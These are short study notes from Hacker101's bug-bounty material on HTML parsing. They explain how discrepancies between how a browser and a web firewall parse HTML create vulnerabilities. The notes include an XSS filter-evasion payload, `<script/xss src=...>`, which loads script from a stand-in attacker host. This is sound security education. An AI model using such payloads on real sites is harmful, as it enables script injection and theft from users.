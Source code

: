 # Web in Depth: HTML
(How to do bug bounties from [hackerone](https://www.hacker101.com/start-here))

## Parsing:
HTML *should* be parsed by the relevant protocol, such as #HTML5.

### Security:
There are more things parsing the HTML than the browser. HTML is also being parsed by #Firewalls to find vulnerabilities such as #cross-site-scripting (XSS).

*If there are any discrepancies* b/w how the browser and the firewall parse the HTML, this can be leveraged by an attacker (creates a vulnerability). 

Example:
You go to `http://example.com/vulnerable?` which has a script in the HTML:
```HTML
name=<script/xss%20src=http://evilsite.com/my.js>
```
Which generates the following page:
```HTML
<!doctype html><html>
	<head>
		<title> Vulnerable page names <script/xss src=http://evilsite.com/my.js></title>
	</head>
</html>
```
A 'bad' #XSS filter on a web application may not see `script/xss` as a script tag. However Firefox's HTML parser will *treat the slash as whitespace* which enables the attack.

> [!Links]
> [hacker 101: The Web in Depth](https://www.hacker101.com/sessions/web_in_depth.html)
